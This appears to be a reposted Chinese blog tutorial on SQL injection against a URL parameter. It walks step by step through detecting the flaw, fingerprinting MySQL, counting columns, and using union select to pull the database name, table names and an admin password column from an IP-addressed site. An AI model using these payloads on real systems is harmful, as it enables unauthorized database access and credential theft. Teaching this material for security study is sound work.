 # SQL注入

来源：https://blog.csdn.net/carol980206/article/details/87905304

## 简介

SQL注入是比较常见的网络攻击方式之一，它不是利用操作系统的BUG来实现攻击，而是针对程序员编程时的疏忽，通过SQL语句，实现无帐号登录，甚至篡改数据库。

## SQL注入总体思路

1.寻找到SQL注入的位置

2.判断服务器类型和后台数据库类型

3.针对不通的服务器和数据库特点进行SQL注入攻击


## SQL注入攻击实例

### 检测注入点

首先，在 http://120.203.13.75:6815/?id=1 目标站点页面发现了 ?id，说明可以通过查询 id=1 的内容来获得页面。

这相当于查询语句：

	select * from [表名] where id = '1';

审查元素，并利用 f5 刷新页面。

分析出的 HTTP 数据包如下：

![](../Images/1.png)

请求中的参数为：查询字符串 id:1

![](../Images/2.png)

### 判断是否存在 SQL 注入可能

	http://120.203.13.75:6815/?id=1后加入一个 单引号，构成
	
	http://120.203.13.75:6815/?id=1'


此时的 SQL 查询语句变为：

	select * from 表名 where id =1';


SQL 语句未正确结束，因此返回了一个错误页面，如图所示：

![](../Images/3.png)


继续测试 and 1=1 和 and 1=2：

	http://120.203.13.75:6815/?id=1 and 1=1

这相当于 SQL 查询语句：

	select * from 表名 where id =1 and 1=1;

![](../Images/4.png)

	http://120.203.13.75:6815/?id=1 and 1=2 

这相当于 SQL 查询语句：

	select select * from 表名 where id =1 and 1=2;

SQL语句用 and 连接可以设置多个条件，目前返回一个永久为假的条件，因此页面返回错误，如图所示：

![](../Images/5.png)


**一个恒等式，一个恒不等式，输入 and 1=1 页面返回正常，而输入 and 1=2 时页面返回出错，说明 SQL 语句被执行，程序没有对敏感字符进行过滤。**

现在可以确定此处是一个 SQL 注入点，程序对带入的参数没有做任何处理，直接带到数据库的查询语句中。


## 数据库爆破

### 判断数据库类型以及版本

构造语句如下：

	http://120.203.13.75:6815/?id=1 and ord(mid(version(),1,1))>51 

发现返回正常页面，说明数据库是 MySQL，并且版本大于 4.0，支持 union 查询，反之是 4.0 以下版本或者其他类型数据库。

### 字段爆破

进一步猜测数据注入位置：

	http://120.203.13.75:6815/?id=1 order by 10 

这相当于 SQL 查询语句：

	select * from [表名] where id =1 order by 10;

返回错误，说明字段小于 10

返回成功，说明字段大于 10


采用二分查找法


### 数据库表爆破

确定字段之后，现在要构造联合查询语句 (union select)，语句如下：

	http://120.203.13.75:6815/?id=1 and 1=2 union select 1,2 

可以发现在页面中，原先的内容没有了，取而代之的是返回的数字 2，这个数字指的是我们可以把联合查询的对应位置替换为想要查询的关键字，比如版本，数据库名称，主要是用来探测 web 系统的信息。


### 用户名、密码

现在把 2 替换掉，先查询数据库名称，构造语句如下：

	http://120.203.13.75:6815/?id=1 and 1=2 union select 1,database() 

说明这个网站的数据库名称是 maoshe

用同样的手法查询表名，构造语句如下：

	http://120.203.13.75:6815/?id=1 and 1=2 union select 1,table_name from information_schema.tables where table_schema='maoshe' 

再用同样的手法猜测密码和用户名字段：

	http://120.203.13.75:6815/?id=1 and 1=2 union select 1,pwd from admin



